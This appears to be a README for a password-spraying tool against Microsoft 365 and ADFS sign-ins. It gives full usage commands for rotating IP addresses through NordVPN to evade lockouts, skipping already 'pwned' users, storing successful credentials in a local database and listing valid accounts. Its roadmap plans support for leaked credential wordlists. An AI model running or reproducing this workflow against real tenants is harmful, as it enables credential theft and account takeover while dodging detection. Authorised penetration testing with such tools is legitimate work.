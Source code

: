 # Password spraying O365/ADFS with IP rotation (NordVPN)
Password spraying O365/ADFS with IP rotation (nordvpn) every 15 attempts

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login
```
* Python packages
```bash
pip3 install -r requirements.txt
```
## Managed tenant
### Usage
```bash
sudo python3 MSOLSpray.py -U '<path/to/mail/file>' -s 2 -p '<pass>' --vpn --vpn-area "France,Germany,Netherlands,United Kingdom" --ignore-success --skip-tested
```
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.

## ADFS
### Usage
```bash
sudo python3 ADFSpray.py -U '<path/to/mail/file>' -r 1 3 -p '<pass>' -t https://<adfs.tenant.com> adfs --vpn --vpn-area "France,Germany,Netherlands,United Kingdom" --ignore-success --skip-tested
```
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.


## Retrieve data in local DB
1. Initialize/create the database (if not already done)
```bash
sudo python3 db_admin.py --init
```

2. List the 20 last "success"
```bash
sudo python3 db_admin.py --list-success --limit 20
```

3. List the "fail"
```bash
sudo python3 db_admin.py --list-fail
```

4. Print users that exist (MSOL only, ADFS script doesn't have this type of information **but** you can use MSOL script once on ADFS users to know if user exists or not in ADFS!)
```bash
sudo python3 db_admin.py --print-valid-users
```

5. Filtered request
```bash
sudo python3 db_admin.py --query --subject alice@example.com --status success --limit 10
```

6. CSV export
```bash
sudo python3 db_admin.py --export out.csv --limit 500
```

7 Purge events older than 60 days
```bash
sudo python3 db_admin.py --purge 60
```

# Roadmap
- Adding countries for NordVPN as an option ✅
- Adding local DB as an option to:
    - Skip users with a known password ✅
    - Skip users when the password tried has already been tried before ✅
- Add an option for user:password wordlists (leaks)